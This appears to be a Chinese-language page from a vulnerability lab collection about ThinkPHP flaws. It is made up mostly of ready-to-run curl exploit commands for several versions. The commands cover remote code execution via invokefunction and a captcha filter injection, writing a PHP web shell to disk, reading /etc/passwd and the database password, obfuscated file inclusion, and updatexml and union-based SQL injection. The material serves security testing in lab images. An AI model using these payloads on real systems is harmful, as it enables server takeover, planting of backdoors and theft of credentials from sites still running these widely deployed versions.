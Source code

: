 ## Thinkphp 5 controller 路由代码执行漏洞

测试镜像

* src/thinkphp/5.0.16/

影响范围

* 5.0.X - 5.0.23
* 5.1.X - 5.1.31

Poc - 1

```bash
# 执行代码
curl -g '127.0.0.1/public/index.php?s=index/\think\app/invokefunction&function=assert&vars[0]=phpinfo();'

# 执行命令
curl -g '127.0.0.1/public/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id'

# 写文件
curl -g '127.0.0.1/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=<?php%20system($_GET[0]);?>'

# 获取参数
curl -g '127.0.0.1/public/index.php/?s=index/\think\config/get&name=database.username'
curl -g '127.0.0.1/public/index.php/?s=index/\think\config/get&name=database.password'
```

Poc - 2

```bash
# 执行命令
curl -g '127.0.0.1/public/index.php/?s=captcha' --data 's=cat /etc/passwd&_method=__construct&method=&filter[]=system'

# 包含文件 - 普通
curl -g '127.0.0.1/public/index.php/?s=captcha' --data 's=../runtime/log/201909/01.log&_method=__construct&method=&filter[]=think\__include_file'

# 包含文件 - php://filter + strrev
echo '<?php phpinfo(); ?>' | base64 > /tmp/test.txt
curl -g '127.0.0.1/public/index.php/?s=captcha' --data 's=txt.tset/pmt/=ecruoser/edoced-46esab.trevnoc=daer/retlif//:php&_method=__construct&method=&filter[]=strrev&filter[]=think\__include_file'

# 多个 filter 嵌套 - base64_decode
curl -g '127.0.0.1/public/index.php/?s=captcha' --data 's=L2V0Yy9wYXNzd2Q=&_method=__construct&method=&filter[]=base64_decode&filter[]=think\__include_file'
```


参考文档

* [thinkphp5框架缺陷导致远程代码执行](https://mp.weixin.qq.com/s/oWzDIIjJS2cwjb4rzOM4DQ)
* [Thinkphp5 远程代码执行漏洞事件分析报告](https://paper.seebug.org/770/)
* [thinkphp_v5_rce.txt](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/a9f165d7bc5bcc2b5e03153577bdfd83f35b0564/thinkphp/thinkphp_v5_rce.txt)

## Thinkphp preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```

## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.0.16

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

## Thinkphp3.2.3 update注入漏洞

测试镜像

* src/thinkphp/3.2.3/

影响版本

* Thinkphp < 3.2.3

参考链接

* [Thinkphp3.2.3最新版update注入漏洞](https://paper.seebug.org/573/)

Poc

```shell
curl -g 'http://172.17.0.2/index.php/home/user?user[0]=bind&user[1]=money_0%20or%201%20and(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))&money=qwe'
```

返回内容包含sql报错：XPATH syntax error: '~root@localhost~'



## Thinkphp exp表达式注入漏洞

测试镜像

* src/thinkphp/3.2.3/

影响版本

* Thinkphp 3.x 5.x

参考文档

* [ThinkPHP框架架构上存在SQL注入](https://www.secpulse.com/archives/29826.html)

Poc

```shell
curl -g 'http://172.17.0.2/index.php/home/user/exp_inject?id[]=exp&id[]=%3d888%20union%20select%201,database(),3%23'
```

